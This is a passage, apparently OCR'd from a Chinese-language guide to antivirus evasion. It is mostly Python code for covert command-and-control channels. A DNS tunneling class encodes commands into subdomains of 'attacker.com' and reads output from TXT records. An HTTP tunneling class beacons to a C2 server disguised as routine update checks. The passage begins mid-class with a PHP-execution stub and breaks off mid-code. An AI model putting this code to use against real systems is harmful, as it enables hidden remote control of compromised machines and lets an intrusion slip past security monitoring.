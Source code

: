 ```python
    def _execute_via_php(self, php_code):
        """通过 PHP 执行"""
        # 实现 PHP 代码执行
        pass
```

---

## 四、网络层免杀技术

### 1. DNS 隧道技术

```python
class DNSTunneling:
    """DNS 隧道通信"""
    
    def __init__(self, domain="attacker.com"):
        self.domain = domain
        self.session_id = ''.join(random.choices(string.hexdigits, k=16))
    
    def send_command_via_dns(self, command):
        """通过 DNS 查询发送命令"""
        # 编码命令
        encoded_cmd = base64.b64encode(command.encode()).decode('utf-8')
        
        # 构造 DNS 子域名
        subdomain = f"{self.session_id}.{encoded_cmd}.{self.domain}"
        
        try:
            import socket
            socket.gethostbyname(subdomain)
            return True
        except:
            return False
    
    def receive_output_via_dns(self):
        """通过 DNS TXT 记录接收输出"""
        # 查询 TXT 记录获取命令输出
        import dns.resolver
        try:
            answers = dns.resolver.resolve(f"output.{self.session_id}.{self.domain}", 'TXT')
            for rdata in answers:
                for txt_string in rdata.strings:
                    return base64.b64decode(txt_string.decode()).decode('utf-8')
        except:
            return None
```

### 2. HTTP 隧道技术

```python
class HTTPTunneling:
    """HTTP 隧道通信"""
    
    def __init__(self, c2_server="http://attacker.com"):
        self.c2_server = c2_server
        self.session = requests.Session()
    
    def beacon_checkin(self, system_info):
        """信标检查"""
        # 伪装成正常的 API 调用
        data = {
            'api_key': 'legitimate_key',
            'action': 'check_update',
```